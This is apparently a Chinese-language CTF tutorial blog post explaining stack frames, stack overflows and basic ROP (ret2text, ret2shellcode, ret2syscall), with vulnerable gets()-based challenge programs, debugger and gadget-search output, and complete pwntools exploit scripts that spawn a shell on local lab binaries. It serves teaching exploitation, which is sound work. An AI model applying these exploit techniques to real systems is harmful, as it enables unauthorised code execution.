

栈帧 函数调用栈是指程序运行时内存一段连续的区域，用来保存函数运行时的状态信息，包括函数参数与局部变量等。称之为“栈”是因为发生函数调用时，调用函数（caller）的状态被保存在栈内，被调用函数（callee）的状态被压入调用栈的栈顶；在函数调用结束时，栈顶的函数（callee）状态被弹出，栈顶恢复到调用函数（caller）的状态。函数调用栈在内存中从高地址向低地址生长，所以栈顶对应的内存地址在压栈时变小，退栈时变大。
函数状态主要涉及三个寄存器－－esp，ebp，eip。esp 用来存储函数调用栈的栈顶地址，在压栈和退栈时发生变化。ebp 用来存储当前函数状态的基地址，在函数运行时不变，可以用来索引确定函数参数或局部变量的位置。eip 用来存储即将执行的程序指令的地址，cpu 依照 eip 的存储内容读取指令并执行，eip 随之指向相邻的下一条指令，如此反复，程序就得以连续执行指令。
调用栈 下面让我们来看看发生函数调用时，栈顶函数状态以及上述寄存器的变化。变化的核心任务是将调用函数（caller）的状态保存起来，同时创建被调用函数（callee）的状态。
首先将被调用函数（callee）的参数按照逆序（cdecl）依次压入栈内。如果被调用函数（callee）不需要参数，则没有这一步骤。这些参数仍会保存在调用函数（caller）的函数状态内，之后压入栈内的数据都会作为被调用函数（callee）的函数状态来保存。
然后将调用函数（caller）进行调用之后的下一条指令地址作为返回地址压入栈内。这样调用函数（caller）的 eip（指令）信息得以保存。
再将当前的ebp 寄存器的值（也就是调用函数的基地址）压入栈内，并将 ebp 寄存器的值更新为当前栈顶的地址。这样调用函数（caller）的 ebp（基地址）信息得以保存。同时，ebp被更新为被调用函数（callee）的基地址。
在压栈的过程中，esp 寄存器的值不断减小（对应于栈从内存高地址向低地址生长）。压入栈内的数据包括调用参数、返回地址、调用函数的基地址，以及局部变量，其中调用参数以外的数据共同构成了被调用函数（callee）的状态。在发生调用时，程序还会将被调用函数（callee）的指令地址存到 eip 寄存器内，这样程序就可以依次执行被调用函数的指令了。
恢复栈 下面就是要恢复上一个函数的状态了，变化的核心任务是丢弃被调用函数（callee）的状态，并将栈顶恢复为调用函数（caller）的状态。
首先被调用函数的局部变量会从栈内直接弹出，栈顶会指向被调用函数（callee）的基地址。
然后将基地址内存储的调用函数（caller）的基地址从栈内弹出，并存到 ebp 寄存器内。这样调用函数（caller）的 ebp（基地址）信息得以恢复。此时栈顶会指向返回地址。
再将返回地址从栈内弹出，并存到 eip 寄存器内。这样调用函数（caller）的 eip（指令）信息得以恢复。
至此调用函数（caller）的函数状态就全部恢复了，之后就是继续执行调用函数的指令了。
以上内容转载与长亭的手把手教你栈溢出从入门到放弃
函数调用过程 由上面的步骤解析，可以得到一个比较经典的函数调用过程为：
开辟栈帧（push ebp(当前栈基址压栈)、mov ebp,esp(bp寄存器保存栈顶sp寄存器值)、sub esp,xx(开辟xx大小的栈空间）
保存现场（寄存器的值压入栈中以保存数据）
被调用函数的参数压栈（根据函数调用约定来决定压栈的参数顺序）
调用者函数call被调用者函数（call指令会将下一个指令地址当作返回地址压栈，然后jmp到被调用者函数的地址）
被调用函数保存调用者的栈底地址，然后再保存被调用者栈顶地址
在被调用函数栈帧中，从ebp的位置开始存放局部变量和临时变量
执行对应被调用函数功能
执行完被调用函数后，将局部变量弹出栈外，然后恢复ESP，再将EBP弹出（leave等价于mov esp,ebp ; pop ebp）
最后执行ret（等价于pop eip），恢复上个函数的状态
函数调用栈如图：
需要注意的是，32 位和 64 位程序传参不一样：
x86
x64
System V AMD64 ABI (Linux、FreeBSD、macOS 等采用)中前六个整型或指针参数依次保存在RDI, RSI, RDX, RCX, R8 和 R9 寄存器中，如果还有更多的参数的话才会保存在栈上。
内存地址不能大于 0x00007FFFFFFFFFFF，6 个字节长度，否则会抛出异常。
栈溢出 栈溢出原理 栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致栈中与其相邻的变量的值被改变。栈溢出漏洞轻则可以使程序崩溃，重则可以使攻击者控制程序执行流程。此外，我们也不难发现，发生栈溢出的基本前提是
程序必须向栈上写入数据
写入的数据大小没有被良好地控制
危险函数
输入
gets，直接读取一行，忽略’\x00’
scanf
vscanf
输出
字符串
strcpy，字符串复制，遇到’\x00’停止
strcat，字符串拼接，遇到’\x00’停止
bcopy
read
填充长度 计算我们所要操作的地址与我们所要覆盖的地址的距离。常见的操作方法就是打开 IDA，根据其给定的地址计算偏移。一般变量会有以下几种索引模式
相对于栈基地址的的索引，可以直接通过查看EBP相对偏移获得
相对应栈顶指针的索引，一般需要进行调试，之后还是会转换到第一种类型。
直接地址索引，就相当于直接给定了地址。
一般来说，我们会有如下的覆盖需求
覆盖函数返回地址，这时候就是直接看 EBP 即可。
覆盖栈上某个变量的内容，这时候就需要更加精细的计算了。
覆盖 bss 段某个变量的内容。
根据现实执行情况，覆盖特定的变量或地址的内容。
之所以我们想要覆盖某个地址，是因为我们想通过覆盖地址的方法来直接或者间接地控制程序执行流程。
以上来源于WIKI
基本ROP ret2text ret2text 即控制程序执行程序本身已有的的代码(.text)。其实，这种攻击方法是一种笼统的描述。我们控制执行程序已有的代码的时候也可以控制程序执行好几段不相邻的程序已有的代码(也就是 gadgets)，这就是我们所要说的ROP。
以下面为例，题目地址
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 #include <stdio.h> #include <stdlib.h> #include <time.h> void secure (void ) int secretcode, input; srand(time(NULL )); secretcode = rand(); scanf ("%d" , &input); if (input == secretcode) system("/bin/sh" ); } int main (void ) setvbuf(stdout , 0L L, 2 , 0L L); setvbuf(stdin , 0L L, 1 , 0L L); char buf[100 ]; printf ("There is something amazing here, do you know anything?\n" ); gets(buf); printf ("Maybe I will tell you next time !" ); return 0 ; }
查看保护机制，开启了NX，其他均关闭
1 2 3 4 5 6 7 gnq@virtual-machine:~/pwn$ checksec ret2text [*] '/home/gnq/pwn/ret2text' Arch: i386-32-little RELRO: Partial RELRO Stack: No canary found NX: NX enabled PIE: No PIE (0x8048000)
用IDA打开，在main函数F5反编译，可以看到存在gets函数，存在栈溢出漏洞
1 2 3 4 5 6 7 8 9 10 11 int __cdecl main (int argc, const char **argv, const char **envp) char s; setvbuf(stdout , 0 , 2 , 0 ); setvbuf(_bss_start, 0 , 1 , 0 ); puts ("There is something amazing here, do you know anything?" ); gets(&s); printf ("Maybe I will tell you next time !" ); return 0 ; }
在程序中的secure函数中存在system(“/bin/sh”)的代码
1 2 3 4 5 6 .text :0804862 D call ___isoc99_scanf .text :08048632 mov eax, [ebp+input] .text :08048635 cmp eax, [ebp+secretcode] .text :08048638 jnz short locret_8048646 .text :0804863 A mov dword ptr [esp], offset command ; "/bin/sh" .text :08048641 call _system
因为gets函数是以回车为结束符，只要不回车就可以不断输入字符，导致栈溢出，从而覆盖掉返回地址，从而控制程序流程，把返回地址设置成0804863A，那么系统就会执行system(“/bin/sh”)，从而getshell

下面就是确定填充长度了，用gdb调试程序，生成200个字符，
1 2 3 4 gdb ret2text ... pwndbg> cyclic 200 aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
运行程序之后输入造成程序崩溃，gdb报错是因为返回地址被我们填充的字符覆盖掉，导致程序无法正常跳转
1 2 3 4 5 6 7 pwndbg> r Starting program: /home/gnq/exam/ret2text There is something amazing here, do you know anything? aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab Maybe I will tell you next time ! Program received signal SIGSEGV, Segmentation fault. 0x62616164 in ?? ()
查看输出位置到报错位置的距离，得到112（0x6c+0x4），那么我们就需要填充112个无用字符才可以溢出到返回地址
1 2 pwndbg> cyclic -l 0x62616164 112
编写攻击脚本
1 2 3 4 5 6 7 8 9 from pwn import *p=process("./ret2text" ) sys_sh_addr=0x804863A payload='a' *112 + p32(sys_sh_addr) p.sendline(payload) p.interactive()
ret2shellcode ret2shellcode，即控制程序执行 shellcode代码。shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。这需要我们将一段shellcode填充到有可执行权限的区域，如栈上或者bss段，并且把返回地址指向shellcode的起始位置。
以下面为例，题目地址
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 #include <stdio.h> #include <string.h> char buf2[100 ];int main (void ) setvbuf(stdout , 0L L, 2 , 0L L); setvbuf(stdin , 0L L, 1 , 0L L); char buf[100 ]; printf ("No system for you this time !!!\n" ); gets(buf); strncpy (buf2, buf, 100 ); printf ("bye bye ~" ); return 0 ; }
查看保护机制，几乎没有开启保护，而且还有可读可写可执行的段存在
1 2 3 4 5 6 7 8 gnq@gnq:~/exam$ checksec ret2shellcode [*] '/home/gnq/exam/ret2shellcode' Arch: i386-32-little RELRO: Partial RELRO Stack: No canary found NX: NX disabled PIE: No PIE (0x8048000) RWX: Has RWX segments
用IDA打开，F5反汇编得到
1 2 3 4 5 6 7 8 9 10 11 12 int __cdecl main (int argc, const char **argv, const char **envp) int v4; setvbuf(stdout , 0 , 2 , 0 ); setvbuf(stdin , 0 , 1 , 0 ); puts ("No system for you this time !!!" ); gets((char *)&v4); strncpy (buf2, (const char *)&v4, 0x64 u); printf ("bye bye ~" ); return 0 ; }
同样是gets函数存在栈溢出漏洞，可以看到strncpy将v4的内容复制到buf2
1 .bss:0804 A080 buf2 db 64 h dup (?) ; DATA XREF: main+7B ↑o
通过IDA可以看到buf2在bss段上，地址为0804A080
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 gnq@gnq:~/test $ gdb ret2shellcode ... pwndbg> b main ... pwndbg> r ... pwndbg> vmmap LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA 0x8048000 0x8049000 r-xp 1000 0 /home/gnq/exam/ret2shellcode 0x8049000 0x804a000 r-xp 1000 0 /home/gnq/exam/ret2shellcode 0x804a000 0x804b000 rwxp 1000 1000 /home/gnq/exam/ret2shellcode 0xf7e02000 0xf7e03000 rwxp 1000 0 0xf7e03000 0xf7fb3000 r-xp 1b0000 0 /lib/i386-linux-gnu/libc-2.23.so 0xf7fb3000 0xf7fb4000 ---p 1000 1b0000 /lib/i386-linux-gnu/libc-2.23.so 0xf7fb4000 0xf7fb6000 r-xp 2000 1b0000 /lib/i386-linux-gnu/libc-2.23.so 0xf7fb6000 0xf7fb7000 rwxp 1000 1b2000 /lib/i386-linux-gnu/libc-2.23.so 0xf7fb7000 0xf7fba000 rwxp 3000 0 0xf7fd3000 0xf7fd4000 rwxp 1000 0 0xf7fd4000 0xf7fd7000 r--p 3000 0 [vvar] 0xf7fd7000 0xf7fd9000 r-xp 2000 0 [vdso] 0xf7fd9000 0xf7ffc000 r-xp 23000 0 /lib/i386-linux-gnu/ld-2.23.so 0xf7ffc000 0xf7ffd000 r-xp 1000 22000 /lib/i386-linux-gnu/ld-2.23.so 0xf7ffd000 0xf7ffe000 rwxp 1000 23000 /lib/i386-linux-gnu/ld-2.23.so 0xfffdd000 0xffffe000 rwxp 21000 0 [stack]
通过vmmap可以看到bss段刚好有可执行权限，那么就可以将shellcode写入buf2中，然后通过栈溢出漏洞控制返回地址到buf2来执行shellcode
1 2 3 4 5 6 7 8 9 10 11 from pwn import *p=process('./ret2shellcode' ) buf2=0x0804A080 shellcode=asm(shellcraft.i386.sh()) payload=shellcode+"a" *(112 -len(shellcode))+p32(buf2) p.sendline(payload) p.interactive()
ret2syscall ret2syscall，即控制程序执行系统调用，获取 shell。
在用户空间和内核空间之间，有一个叫做Syscall(系统调用)的中间层，是连接用户态和内核态的桥梁。这样即提高了内核的安全型，也便于移植，只需实现同一套接口即可。Linux系统，用户空间通过向内核空间发出Syscall，产生软中断，从而让程序陷入内核态，执行相应的操作。
应用程序调用系统调用的过程：
把系统调用号存入 eax
把函数参数存入其它通用寄存器
触发 0x80 号中断（ int 0x80 ）
题目地址
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 #include <stdio.h> #include <stdlib.h> char *shell = "/bin/sh" ;int main (void ) setvbuf(stdout , 0L L, 2 , 0L L); setvbuf(stdin , 0L L, 1 , 0L L); char buf[100 ]; printf ("This time, no system() and NO SHELLCODE!!!\n" ); printf ("What do you plan to do?\n" ); gets(buf); return 0 ; }
查看保护机制，只开启了NX
1 2 3 4 5 6 7 gnq@gnq:~/test $ checksec rop [*] '/home/gnq/test/rop' Arch: i386-32-little RELRO: Partial RELRO Stack: No canary found NX: NX enabled PIE: No PIE (0x8048000)
用IDA查看程序。gets存在栈溢出，但是程序没有后门函数可以直接调用，NX保护也导致shellcode无法使用。
1 2 3 4 5 6 7 8 9 10 11 int __cdecl main (int argc, const char **argv, const char **envp) int v4; setvbuf(stdout , 0 , 2 , 0 ); setvbuf(stdin , 0 , 1 , 0 ); puts ("This time, no system() and NO SHELLCODE!!!" ); puts ("What do you plan to do?" ); gets(&v4); return 0 ; }
这里使用程序中的gadgets来getshell，其本质是利用系统调用。需要先把对应的系统调用号参数存放到对应的寄存器中，然后再执行int 0x80就可以实现对系统调用。
这题需要利用execve("/bin/sh",NULL,NULL)，其系统调用号是11，十六进制为0xb。其他系统调用可以参考Linux 32位系统调用表
系统调用号，即 eax 应该为 0xb
第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执 行sh 的地址也可以。
第二个参数，即 ecx 应该为 0
第三个参数，即 edx 应该为 0
下面就是通过pop把参数存到对应寄存器中，然后用ret再次控制程序的流程，将gadgets串联成payload就可以getshell。
现在可以用ROPgadgets来获取程序中的gadgets，先获取控制eax的gadgets，然后通过一样的方法获取到其他寄存器的gadgets
1 2 3 4 5 6 gnq@gnq:~/test $ ROPgadget --binary rop --only 'pop|ret' | grep eax 0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret 0x080bb196 : pop eax ; ret 0x0807217a : pop eax ; ret 0x80e 0x0804f704 : pop eax ; ret 3 0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
获取程序中/bin/sh的地址
1 2 3 4 gnq@gnq:~/test $ ROPgadget --binary rop --string '/bin/sh' Strings information ============================================================ 0x080be408 : /bin/sh
获取int 0x80的地址
1 2 3 4 5 6 gnq@gnq:~/test $ ROPgadget --binary rop --only 'int' Gadgets information ============================================================ 0x08049421 : int 0x80 Unique gadgets found: 1
根据系统调用顺序编写攻击脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 from pwn import *p=process("./rop" ) pop_eax_ret=0x080bb196 pop_edx_ecx_ebx_ret=0x0806eb90 bin_addr=0x080be408 int0x80_addr=0x08049421 payload='a' *112 payload+=p32(pop_eax_ret)+p32(0xb )+p32(pop_edx_ecx_ebx_ret)+p32(0 )+p32(0 )+p32(bin_addr) payload+=p32(int0x80_addr) p.sendline(payload) p.interactive()
对应栈分步图
ret2libc 参考 手把手教你栈溢出从入门到放弃（上） C语言函数调用栈(一) CTF-WIKI